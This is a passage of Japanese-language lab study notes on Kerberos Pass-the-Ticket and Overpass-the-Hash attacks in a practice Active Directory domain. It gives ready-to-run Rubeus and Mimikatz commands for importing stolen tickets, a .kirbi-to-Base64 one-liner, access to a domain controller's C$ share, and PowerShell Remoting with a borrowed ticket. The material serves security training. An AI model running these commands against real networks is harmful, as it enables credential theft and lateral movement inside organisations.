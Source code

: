 - Mimikatzはパス・ザ・キー/オーバーパス・ザ・ハッシュ攻撃を実行するために管理権限を必要とする
- Rubeusは管理権限を必要としない
注意点
- **Windowsドメイン（機能レベル2008以降）** は、デフォルトで **AES暗号化**（AES256またはAES128）を使用  
- Kerberos交換時にRC4_HMAC（NTLMハッシュ）を使用すると、暗号化ダウングレードと見なされる可能性がある
- セキュリティシステムがRC4_HMACの使用を検出し、不審な活動としてアラートを出すことがある

#### PtTへの展開
- Kerberosチケットをいくつか取得したので、これらを利用して環境内で横展開できる
- Rubeusを使用してOverPass-the-Hash（OPtH）攻撃を実行し、チケットをBase64形式で取得した
- しかし、代わりに **`/ptt` フラグ**を使用すれば、**取得したTGTまたはTGSチケットを現在のログオンセッションに直接適用**できる
```cmd-session
./Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```

↑のコマンドの出力の中のbase64 出力を使用して、Pass the Ticketを実行できる
- ↓のコマンド実行後に`[+] ticket successfully imported!`って出てきたら、実行後のコマンドプロンプトはPtTが成功したプロンプトになってる
```cmd-session
./Rubeus.exe ptt /ticket:<上のコマンドで出力されたBase64の値>
```



別の方法として、ディスク上の.kirbi ファイルを使用して、現在のセッションにチケットをインポートすることも可能
Mimikatzからエクスポートしたチケットを使用して、インポートする
```cmd-session
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```
.kirbi を base64 に変換して、チケットを渡す攻撃を実行することもできる
**.kirbiをBase64形式に変換する**
```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```


Mimikatzモジュール`kerberos::ptt`と、インポートしたいチケットを含む.kirbiファイルを使用して、パス・ザ・チケット攻撃を実行することもできる
- `misc::cmd`
	- 新しいcmd.exeウィンドウが開き、適用されたチケットを引き継いだ状態で作業できる
	- Mimikatzを閉じても、その新しいウィンドウ内ではチケットが適用された状態が維持される
```cmd-session
mimikatz.exe 
privilege::debug
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
misc::cmd
exit
dir \\DC01.inlanefreight.htb\c$
```


### PowerShell Remotingでチケットを渡す
- [PowerShell Remoteing](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2)を使用すると、リモートコンピュータでスクリプトまたはコマンドを実行できる
- PowerShell Remotingを有効にすると、HTTPリスナーとHTTPSリスナーの両方が作成される
- リスナーは、HTTP の場合は標準ポート TCP/5985、HTTPS の場合は TCP/5986 で実行される
- リモート コンピューターで PowerShell Remoteting セッションを作成する
	- 管理者権限・リモート管理ユーザーグループのメンバーであるか、セッション設定に明示的な PowerShell Remoteting 権限を持っている必要がある
#### Mimikatz
Pass-the-Ticket（PtT）でPowerShellリモート接続
1. **Mimikatzでチケットをインポート**
    - `cmd.exe` を開く
    - `mimikatz.exe` を実行
    - `kerberos::ptt` で `.kirbi` チケットを適用
2. **PowerShellでターゲットに接続**
    - **同じ `cmd.exe` から PowerShell を起動**
    - `Enter-PSSession -ComputerName <ターゲットマシン>` で接続